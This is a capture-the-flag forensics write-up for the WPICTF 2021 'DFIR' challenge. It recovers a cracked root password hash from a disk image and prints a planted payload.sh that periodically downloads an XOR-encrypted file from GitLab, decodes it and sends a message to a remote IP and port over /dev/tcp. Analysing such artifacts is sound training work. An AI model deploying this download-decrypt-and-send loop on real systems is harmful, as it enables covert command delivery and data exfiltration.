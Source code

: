 ```yaml
---
layout: load_md
title: The White Circle | Wpictf 2021 | DFIR Writeup
desc: "The White Circle is a community for Cyber/Information Security students, enthusiasts and professionals. You can discuss anything related to Security, share your knowledge with others, get help when you need it and proceed further in your journey with amazing people from all over the world."
image: images/twc_og_banner.jpg
ctf: Wpictf 2021
parent: wpictf_2021
category: forensics
challenge: DFIR
tags: "forensics, twh"
date: 2021-04-26T00:00:00+00:00
last_modified_at: 2021-04-26T00:00:00+00:00
---
```


<h1 class="heading card-title white-text">Wpictf 2021</h1>

## DFIR

> Solved by : thewhiteh4t

* we get a `.ova` file for this one
* challenge states that activity was detected in / directory
* in / directory we can see a `.pot` file

![](https://i.imgur.com/HdIn51S.png)

* this file contains :

```
$6$fZ/iAgR.$FHl9m/ibTVBQ3OQ645IiLtrcxSsxdt8pTQHh7knfQ2GhD7Pbu0Dv0evXaGnnMVjV7xe5KlRprL5hWEjE6/Ruj0:toor
```

* looks like shadow file format so i tried to login as `root` with `toor` as password and it works!
* in `/root` we can see some interesting dot files

![](https://i.imgur.com/wFSclR3.png)

* `payload.sh` pulls an encrypted csv file from gitlab and decrypts it

```
    #!/bin/bash
    W=$((15*60))
    K=120
    while true
    do
        echo "sleeping for $W seconds"
        sleep $W
        rm .encrypted_csv.data
        wget https://gitlab.com/thehacker1/payload/-/raw/master/.encrypted_csv.data
        echo "downloaded file"
        F="./.encrypted_csv.data"
        hexdump -v -e '/1 "%u\n"' $F | while read B; do
            E=$((K^B))
            C=$(printf \\$(printf '%03o' $E))
            echo -n $C >> encrypted.csv
        done
        echo "decrypted newest command"
        S=$(cat encrypted.csv)
        rm encrypted.csv
        S="${S::-1}"
        D=,
        S=$S$D
        array=();
        while [[ $S ]]; do
            array+=( "${S%%"$D"*}" );
            S=${S#*"$D"};
        done;
        declare -a array
        M=${array[0]}
        I=${array[1]}
        P=${array[2]}
        M=${M##WPI}
        echo "routing message to $I:$P"
        echo "$M" > /dev/tcp/$I/$P
    done
```

* I modified the script to not remove the new file by commenting out line 19
* `encrypted.csv` holds our flag!

![](https://i.imgur.com/6KQGa3L.png)

